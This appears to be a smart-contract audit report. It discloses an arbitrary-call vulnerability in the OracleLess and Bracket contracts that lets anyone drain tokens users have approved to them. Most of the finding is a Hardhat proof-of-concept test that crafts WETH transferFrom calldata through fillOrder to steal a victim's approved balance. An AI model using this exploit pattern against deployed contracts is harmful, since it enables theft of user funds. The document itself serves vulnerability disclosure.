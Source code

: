Dancing Sage Terrier

High

# Attacker will steal funds from users with approval to either Bracket or OracleLess

### Summary

In all three contract, in execute, unsafe arbitrary calls is made, which can be exploited by an actor to transfer assets from a user with open approvals to the contract.
Also both contracts rely on approval flow, making it a critical issue for users

OracleLess: https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/OracleLess.sol#L240
Bracket: https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/Bracket.sol#L542


### Root Cause

`execute` function make arbitrary call to any target address

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

Pass contract address as target in fillOrder and calldata to transfer balance from user address to contract.

### Impact

_No response_

### PoC

```javascript

  // High
  it("Exploit approval", async () => {
    await stealMoney(
      s.wethWhale,
      await s.Gary.getAddress(),
      await s.WETH.getAddress(),
      s.wethAmount
    );

    // Gary approves StopLimit contract to spend WETH
    await s.WETH.connect(s.Gary).approve(
      await s.OracleLess.getAddress(),
      s.wethAmount
    );
    await s.OracleLess.connect(s.Oscar).createOrder(
      await s.WETH.getAddress(), // tokenIn
      await s.USDC.getAddress(), // tokenOut
      s.wethAmount / 2n, // amountIn
      0, // minAmountOut
      await s.Gary.getAddress(), // recipient
      25, // feeBips
      false, // permit
      "0x" // permitPayload
    );

    await s.OracleLess.connect(s.Oscar).createOrder(
      await s.USDC.getAddress(),
      await s.WETH.getAddress(),
      0,
      0,
      await s.Oscar.getAddress(),
      25,
      false,
      "0x"
    );
    const pendingOrders = await s.OracleLess.getPendingOrders();
    let orderId = 0n;
    let index = 0;
    for (; index < pendingOrders.length; index++) {
      if (pendingOrders[index].recipient === (await s.Oscar.getAddress())) {
        orderId = pendingOrders[index].orderId;
        break;
      }
    }

    await s.OracleLess.connect(s.Oscar).fillOrder(
      BigInt(index),
      orderId,
      await s.WETH.getAddress(),
      (
        await s.WETH.transferFrom.populateTransaction(
          await s.Gary.getAddress(),
          await s.OracleLess.getAddress(),
          s.wethAmount / 2n
        )
      ).data
    );

    // Verify Gary's remaining balance is correct
    // Half sent while order creation, second half by approval exploit
    const finalBalance = await s.WETH.balanceOf(await s.Gary.getAddress());
    expect(finalBalance).to.equal(0n);
  });


```

### Mitigation

_No response_